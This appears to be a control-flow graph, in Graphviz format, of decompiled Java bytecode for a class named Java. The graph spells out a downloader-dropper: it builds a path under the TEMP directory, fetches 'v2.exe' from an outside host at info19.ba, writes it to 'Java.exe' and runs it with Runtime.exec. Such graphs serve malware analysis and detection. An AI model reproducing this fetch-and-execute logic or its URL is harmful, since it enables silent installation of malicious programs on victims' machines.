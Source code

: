 digraph "" {
    "r0 := @this: Java"
    "push \"TEMP\""
    "r0 := @this: Java"->"push \"TEMP\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"TEMP\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r0"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r0";
    "new java.io.FileOutputStream"
    "store.r r0"->"new java.io.FileOutputStream";
    "store.r $r11"
    "new java.io.FileOutputStream"->"store.r $r11";
    "load.r $r11"
    "store.r $r11"->"load.r $r11";
    "new java.lang.StringBuilder"
    "load.r $r11"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r0"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Java.exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Java.exe\"";
    "push \"Java.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"http://info19.ba/v2.exe\""
    "dup1.r"->"push \"http://info19.ba/v2.exe\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://info19.ba/v2.exe\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r7"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r7";
    "push 1024"
    "store.r r7"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r8"
    "newarray"->"store.r r8";
    "load.r r7"
    "store.r r8"->"load.r r7";
    "load.r r8"
    "load.r r7"->"load.r r8";
    "push 0"
    "load.r r8"->"push 0";
    "push 0"->"load.r r8";
    "arraylength"
    "load.r r8"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r7"
    "push -1"->"ifcmpeq.i load.r r7";
    "ifcmpeq.i load.r r7"->"load.r $r11";
    "load.r $r11"->"load.r r8";
    "load.r r8"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r7"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r7";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r7"->"load.r r7";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r7"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r11";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r11"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Java.exe\"";
    "push \"Java.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
}
